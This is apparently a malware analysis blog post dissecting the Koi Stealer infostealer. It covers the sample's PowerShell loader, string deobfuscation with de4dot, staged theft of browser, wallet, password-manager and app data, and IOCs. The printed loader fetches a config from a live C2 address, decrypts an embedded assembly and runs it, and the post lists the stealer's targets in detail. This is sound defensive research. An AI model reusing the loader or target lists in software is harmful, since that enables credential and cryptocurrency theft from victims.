+++
title = 'A Deconstruction of Koi Stealer - Malware Analysis'
date = 2024-04-08T15:27:05+01:00
draft = false
tags = [ "malware analysis", "reverse engineering" ]
+++

## Overview

Koi stealer samples began appearing on [any.run](https://any.run) in mid-late february. The samples identified as Koi are mostly Powershell scripts, including the one I analysed.

> Note: Koi stealer should not be confused with AZORult. From what I've identified, they are two distinct families, and not even written in the same language. Koi is written in C# while AZORult 2019 is written in C++.

The stealer performs basic system checks before stealing various data in 3 stages - browser data, including passwords, cryptocurrency wallet and password manager data, some application data, and other files of interest. A full list of sources that the malware steals from is included at the end of this report.

### Details

Details about the main implant:
- Sample source: https://app.any.run/tasks/0c21f3f8-9f51-44ae-9d5e-5a67a29cd9f9/
- Sample type: Intel 80386 (x86) .NET Assembly
- First submission (VT): 2024-03-28 14:47:02 UTC

## Powershell Loader

Below is a trimmed version of the loader script.

```powershell
[byte[]] $binary = 0x0e,
0x1d, 0xa9, 0x47, 0x45, 0x63, 0x55, 0x39, 0x69, 0x75, 0x46, 0x74, 0xc7, 0xad, 0x46, 0x72,
0xd7, 0x6f, 0x48, 0x58, 0x43, 0x47, 0x39, 0x47, 0x06, 0x63, 0x55, 0x39, 0x6d, 0x75, 0x46,
....
0x39, 0x6d, 0x75, 0x46, 0x74, 0x38, 0x52, 0x46, 0x72, 0x6f, 0x6f, 0x48, 0x58, 0x43, 0x47,
0x39, 0x47, 0x46, 0x63, 0x55, 0x39, 0x6d, 0x75, 0x46, 0x74, 0x38, 0x52, 0x46, 0x72, 0x6f,
0x6f, 0x48, 0x58, 0x43, 0x47, 0x39, 0x47, 0x46, 0x63, 0x55, 0x39, 0x6d, 0x75, 0x46, 0x74

# [Net.ServicePointManager]::SecurityProtocol +='tls12'
$guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid
$config = (new-object net.webclient).downloadstring("http://195.123.220.40/index.php?id=$guid&subid=ENmpj9mb").Split('|')
$k = $config[0];

for ($i = 0; $i -lt $binary.Length ; ++$i)
{
	$binary[$i] = $binary[$i] -bxor $k[$i % $k.Length]
}

$sm = [System.Reflection.Assembly]::Load($binary)
$ep = $sm.EntryPoint


$ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3])))
```

It contains a large byte buffer (`$binary`) that is XOR decrypted using a plaintext configuration received from the malicious server (`195.123.220.40`), and loaded as an assembly. Some of the configuration is passed into the assembly as arguments. I managed to retrieve this configuration from the server, using a fake GUID:



We can deduct what each item in the configuration represents:
- `CG9GFcU9muFt8RFrooHX`: XOR key for decrypting the .NET payload
- `ENmpj9mb`: possibly an ID for this particular infection. This may have been the value used to determine the correct encryption key to send. Notice that it was used as the `subid` parameter in the download string
- `http://195.123.220.40/index.php`: The malicious server endpoint. This is passed as an argument to the malware so that it knows where to call back to

Using this configuration, we can write a generic script to decrypt and dump the PE ourselves without running it.

```python
import sys

def main():
    if len(sys.argv) < 4:
        print("Usage:", sys.argv[0], "[path-to-encrypted-pe] [path-to-config] [save-path]")
        sys.exit(1)

    with open(sys.argv[1], "rb") as f:
        data = f.read()

    with open(sys.argv[2], "rb") as f:
        config = f.read()
        config = config.split(b"|")

    key = config[0]
    decoded = []

    for i in range(len(data)):
        decoded.append(data[i] ^ key[i % len(key)])

    if len(decoded) > 2 and decoded[0] == 0x4D and decoded[1] == 0x5A:
        print("successful decoding! The resulting PE is valid.")
    else:
        print("the decoded result is not a valid PE file.")
        sys.exit(0)

    with open(sys.argv[3], "wb") as f:
        f.write(bytes(decoded))

    print("decoded PE saved to", sys.argv[3])

if __name__ == "__main__":
    main()
```

## Main Payload Analysis

Loading the sample into `dnSpy`, we can tell that it's a little hard to read the source code due to names / symbols being stripped.
We start by executing [de4dot](https://github.com/de4dot/de4dot) on the payload to fix up the naming and improve readability.  
Peeking at the `Main` method, there seems to be some basic string obfuscation in place. All assigned strings are received from calls to distinct methods.



...and each method looks like this:



All strings are stored in separate class, in a large byte buffer, which is XOR decrypted at runtime:

```cs
static Class7()
{
	for (int i = 0; i < Class7.byte_0.Length; i++)
	{
		// byte_0 is the buffer storing all string bytes
		Class7.byte_0[i] = (byte)((int)Class7.byte_0[i] ^ i ^ 170);
	}
}
```

Each string de-obfuscation function calls a single underlying method to fetch the string from the large byte buffer.

```cs
// Token: 0x0600007A RID: 122 RVA: 0x0001B014 File Offset: 0x00019214
private static string smethod_0(int int_0, int int_1, int int_2)
{
	string @string = Encoding.UTF8.GetString(Class7.byte_0, int_1, int_2);
	Class7.string_0[int_0] = @string;
	return @string;
}
```

Notice the method token highlighted in the previous image. Provided with method tokens, `de4dot` can directly resolve the method to the returned value, meaning we can inline the obfuscated strings. We just need to specify the method tokens for all deobfuscation methods. Thankfully, they are all defined in-order. We can take the tokens of the first and last methods, and resolve the rest of them (since the tokens are numeric, we can increment from the first to the last to generate the other tokens). Here's a script to generate the `de4dot` command to do this in one go.

```python
import sys

if len(sys.argv) < 4:
	print("usage:", sys.argv[0], "[binary-name] [first-token] [last-token]")
	sys.exit(1)

bin = sys.argv[1]
first = int(sys.argv[2], 16)
last = int(sys.argv[3], 16)

cmd = "de4dot " + bin + " --strtyp delegate"

for i in range(first, last+1):
    cmd += " --strtok " + str(hex(i))

print(cmd)
```

Now we can load a cleaned version back into `dnSpy` for a full examination.

## Initialisation

On initialisation, a global named mutex is created to prevent two instances of Koi stealer from running at once. The authors also tried to prevent it from activating in the following countries: Azerbaijan, Armenia, Belarus, Kazakhstan, Kyrgyzstan, Moldova, Russia, Tajikistan, Turkmenistan, Uzbekistan, Ukraine.

I named this analysed function `IsBadEnvironment` because on returning `true`, execution stops and the stealer exits.



The malware then checks for the existence of certain file paths, hostnames, usernames, and more, likely to determine whether it is in a sandbox.  
Next, basic system information is gathered. Each system is given a unique ID, which is the `MachineGuid` from `SOFTWARE\\Microsoft\\Cryptography`. Gathered information includes:
- PC name
- Username
- Domain name
- CPU information
- GPU information
- Installed RAM
- Screen information
- Language and timezone settings
- OS information
- Installed antivirus
- Installed programs

## Exfiltration

After this information gathering stage, the heavy data collection / exfiltration begins. Stolen data is encrypted and `POST`ed to the server provided as an argument to the stealer. Data is exfiltrated in 3 stages, with the end of each stage indicated by log strings in the malware itself.



After sending stage 1, the malware saves the server response. I have not retrieved or analysed the response, but could decipher what it contained based on how the return values were used in the malware. The received response is likely a configuration for the 3rd and final stage.

After sending stage 2, the response from stage 1 is interpreted as a command to execute a further payload, before gathering the remaining data to be sent as stage 3. This extra payload is likely determined by the operator. I believe that this feature was created mainly to deploy ransomware, as we have seen [double extortion](https://www.zscaler.com/resources/security-terms-glossary/what-is-double-extortion-ransomware) becoming an increasingly popular method of cyberattack.

### Stage One

In stage one, the malware steals data from browsers and various applications. These are Mozilla Firefox, Microsoft Edge, Google Chrome, Brave Browser, and Opera Browser. The data targeted is as follows:
- Website cookies
- Saved passwords
- Form / web data (autocomplete)
- Browser history
- Crypto wallet extension data
- Password manager extension data
- TOTP provider data
- Application data
	- Binance
	- Authy
	- Windows Authenticator
	- Skype (cookies)
	- Sticky Notes

Browser data theft methods are shown through in the following screenshots.




*Note: SQLite3 login databases are decrypted and credentials are exfiltrated as part of stage 2*





Application data theft sees known sensitive files being stolen, e.g. WinAuth's `winauth.xml`. A full list of apps and extensions targeted is available at the end of this article.

The methods I named as `SaveXData` and `Log` simply write data into a memory stream. There are two memory streams; one for stolen data, and the other for logging (particularly errors). For example, each time the malware attempts to steal file data, it attempts to remove access rules, copy the file to another location, read the copied file, and then delete it. If it fails at any point during this procedure, comprehensive error information is written to the logging stream, including the file's access rule and the exception message, as shown below.



### Stage Two

In stage two, more applications are targeted. The following data is exfiltrated:
- Telegram data
- OpenVPN (.ovpn) files
- WinSCP credential data
- Steam data
- FileZilla credential data
- Discord data
- and...a single screenshot

### Stage Three

Before stage 3 exfiltration commences, and depending on the configuration received before stage 2, Koi stealer can act as a dropper for further payloads, which I theorised was a feature likely incorporated for double extortion tactics. The name of the command is `LDR`, hence why Koi stealer may be referred to as Koi Loader by some. Below is a table describing the configuration received after stage 1. I haven't yet deciphered the purposes of the fields marked `unknown`.

| Position | Represents         | Values            |
| -------- | ------------------ | ----------------- |
| 0        | Opcode             | `LDR`             |
| 1        | Loading conditions | `OR`, `AND`, `DO` |
| 2        | Unknown            | `On`, `Off`       |
| 3        | Unknown            | Hostnames         |
| 4        | Payload endpoint   | URI               |
| 5        | Outfile            | Filename          |



In stage 3, files in the victim's Documents, Desktop and Downloads folders are targeted. Any file matching any of the values in the list below is exfiltrated.
- UTC—20*
- *.txt
- *.kdbx
- *.axx
- *.docx
- *.doc
- *.xlsx
- *.xls
- \*backup\*
- \*two-fa\*
- \*wallet\*
- \*secret\*
- \*ledger\*
- \*trezor\*
- \*safepal\*
- \*paper-wallet-\*.png



## Final Remarks

The malware author is not at all advanced, development-wise, as the disassembled code contains some badly designed components and inefficiently implemented logic. Furthermore, there wasn't as wide a range of targeted browsers as has been observed from other stealers. Threat-wise, the malware steals a vast range of data, and there would be a serious breach of confidentiality if it was deployed successfully as part of an attack.

## IOCs
### Host-based IOCs

- `Global\\ecf29fd5-211d-4165-96e7-069c4def74ce`: This mutex is created on execution, and before any malicious activity

### Network-based IOCs

- `195.123.220.40`: Endpoint used by this particular sample

## Full Details

### Targeted browsers

- Firefox
- Edge
- Chrome
- Brave
- Opera

### Targeted wallets

- MetaMask
- MetaMask Edge
- MetaMask OperaGX
- Ronin
- Ronin Edge
- TronLink
- Liquality
- Keplr
- Keplr Edge
- NeoLine
- Polymesh
- Clover
- Sollet
- ICONex
- Temple
- Coin98
- Auro
- Cyano
- SafePal
- SafePal Edge
- Binance Chain
- Trust Wallet
- Phantom
- Solflare
- MultiversX
- MetaWallet
- MetaWallet Edge
- XDEFI
- OKX
- OKX Edge
- iWallet
- Math
- Math Edge
- Wombat
- Cradle
- Waves Keeper
- Slope Finance
- ONTO
- Hiro
- Plug
- Monsta
- Guarda
- Exodus
- GameStop
- BitKeep
- Rise
- Martian
- Argent X
- SubWallet
- Fewcha
- Petra Aptos
- Braavos
- Braavos Edge
- Nami
- ZilPay
- Rabby
- Harmony
- MOBOX
- Crust
- Pali
- TON
- Oasis
- Talisman
- Cosmostation
- Crypto.com
- Crypto.com Edge
- Stargazer
- Ecto
- Fractal
- BitClip
- Steem
- Nash
- Byone
- Hycon Lite
- GeroWallet
- EVER
- Earth
- Nabox
- X-Wallet
- Twetch
- BOLT X
- AlgoSigner
- Tronium
- Equal
- Nifty
- Nightly
- OneKey
- OneKey Edge
- Typhon
- KHC
- Jelly
- TezBox
- PIP
- Ale
- Zecrey
- ArConnect
- StarMask
- HashPack
- KardiaChain
- Taho
- Pontem
- Leap Terra
- Sender
- Surf
- Leap Cosmos
- HAVAH
- Eternl
- Finnie
- GuildWallet
- Sui
- Suiet
- SenSui
- Glass
- Morphis
- Goby
- Halo
- Polkadot.js
- Glow
- Glow Edge
- Ethos Sui
- Ethos Sui Edge
- Fluent
- Fluent Edge
- Casper
- CasperSigner
- Saturn
- BitApp
- Unisat
- MEW CX
- Enkrypt
- Enkrypt Edge
- Yoroi
- Yoroi Edge
- Jaxx Liverty
- MantaGlobal\\ecf29fd5-211d-4165-96e7-069c4def74ce

### Other targeted extensions

- TOTP Authenticator
- 2FA Authenticator
- Open 2FA Authenticator
- GAuth Authenticator
- KeePassXC-Browser
- Microsoft Autofill
- iCloud Passwords
- iCloud Passwords Edge
- Dropbox Passwords
- Dropbox Passwords Edge
- NordPass
- DualSafe
- DualSafe Edge
- Bitwarden
- Bitwarden Edge
- KeePass Tusk
- Avira
- Avira Edge
- LastPass
- LastPass Edge
- Dashlane
- Dashlane Edge
- TrueKey
- TrueKey Edge
- RoboForm
- RoboForm Edge
- Norton
- Norton Edge
- Keeper
- Keeper Edge
- Kee
- Kee Edge
- ExpressVPN Keys
- MultiPassword
- ESET
- ESET Edge
- 1Password
- 1Password Edge
- 1Password Beta
- Password Manager Pro
- Enpass
- Enpass Edge
- SaasPass
- Passbolt
- Passbolt Edge
- F-Secure
- F-Secure Edge
- NextCloud
- NextCloud Edge
- Steganos
- Steganos Edge
- Netwrix Password
- Netwrix Password Edge
- pCloud
- pCloud Edge
- Sticky Edge
- Kaspersky Edge
- authenticator.cc
- authenticator.cc Edge

### Targeted applications

- Binance
- Authy
- WinAuth
- Skype
- Sticky Notes
- Telegram
- OpenVPN
- WinSCP
- Steam
- FileZilla
- Discord
